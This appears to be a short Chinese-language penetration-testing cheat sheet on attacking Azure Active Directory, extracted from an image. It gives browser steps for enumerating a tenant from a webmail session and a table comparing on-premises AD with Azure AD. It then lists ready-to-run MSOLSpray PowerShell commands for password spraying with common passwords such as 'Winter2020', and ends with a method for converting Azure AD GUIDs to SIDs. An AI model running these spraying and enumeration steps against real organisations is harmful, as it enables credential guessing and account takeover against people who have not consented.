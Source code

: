 	对于 Microsoft，如果您将任何云服务（Office 365、Exchange Online 等）与 Active Directory（本地或在 Azure 中）一起使用，那么攻击者只需一个凭证就可以通过 Azure AD泄露您的整个 Active Directory 结构
	验证您的网络邮件门户（即https://webmail.domain.com/）
	将浏览器 URL 更改为：https ://azure.microsoft.com/
	从活动会话中选择帐户
	选择 Azure Active Directory
| Active Directory  | Azure AD  |
|---|---|
| LDAP  | REST API'S  |
| NTLM/Kerberos  | OAuth/SAML/OpenID |
| Structured directory (OU tree)  | Flat structure  |
| GPO  | No GPO's  |
| Super fine-tuned access controls  | Predefined roles |
| Domain/forest  | Tenant  |
| Trusts  | Guests  |

	密码喷射
	>git clone https://github.com/dafthack/MSOLSpray
	>Import-Module .\MSOLSpray.ps1
	>Invoke-MSOLSpray -UserList .\userlist.txt -Password Winter2020
	>Invoke-MSOLSpray -UserList .\users.txt -Password d0ntSprayme!
	将 GUID 转换为 SID
	通过连接"S-1–12–1-"到 AAD Id 的每个部分的十进制表示，将用户的 AAD id 转换为 SID。

	GUID: [base16(a1)]-[base16(a2)]-[ base16(a3)]-[base16(a4)]
	SID: S-1–12–1-[base10(a1)]-[ base10(a2)]-[ base10(a3)]-[ base10(a4)]
	例如，表示6aa89ecb-1f8f-4d92–810d-b0dce30b6c82是S-1–12–1–1789435595–1301421967–3702525313–2188119011